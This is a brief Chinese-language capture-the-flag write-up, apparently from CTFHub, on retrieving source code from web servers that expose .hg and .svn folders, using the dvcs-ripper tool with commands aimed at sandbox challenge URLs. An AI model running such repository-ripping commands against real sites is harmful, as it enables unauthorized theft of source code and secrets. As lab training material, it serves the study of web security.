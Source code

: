 ## HG、SVN..泄露

采用工具`dvcs-ripper`

```bash
#安装在linux上

#克隆项目
git clone https://github.com/kost/dvcs-ripper.git
#安装perl环境
sudo apt-get install perl libio-socket-ssl-perl libdbd-sqlite3-perl libclass-dbi-perl libio-all-lwp-perl

#使用
cd dvcs-ripper 
```

具体功能如下，可以处理`cvs`、`.hg` 、`.svn`

```bash
hg-decode.pl  README.md   rip-cvs.pl  rip-hg.pl
LICENSE       rip-bzr.pl  rip-git.pl  rip-svn.pl
```

```bash
./rip-svn.pl -v -u http://challenge-75f38189dd21839a.sandbox.ctfhub.com:10800/.svn

./rip-hg.pl -v -u http://challenge-f84d76c55f28adc6.sandbox.ctfhub.com:10800/.hg/

ls -al

tree .hg/.svn
```



### .HG泄露

> 题目描述：当开发人员使用 Mercurial 进行版本控制，对站点自动部署。如果配置不当,可能会将.hg 文件夹直接部署到线上环境。这就引起了 hg 泄露漏洞

直接交链接，交给工具处理





### .SVN泄露

> 题目描述：当开发人员使用 SVN 进行版本控制，对站点自动部署。如果配置不当,可能会将.svn文件夹直接部署到线上环境。这就引起了 SVN 泄露漏洞

与`.HG泄露`类似操作